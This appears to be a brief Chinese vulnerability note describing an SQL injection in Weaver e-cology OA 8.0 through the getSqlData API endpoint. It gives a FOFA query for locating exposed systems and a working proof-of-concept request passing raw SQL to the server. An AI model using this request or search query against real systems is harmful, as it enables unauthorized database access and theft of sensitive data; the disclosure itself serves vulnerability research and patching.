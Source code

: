 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201341203.png)

验证POC

```
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![image-20220520134115167](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201341226.png)
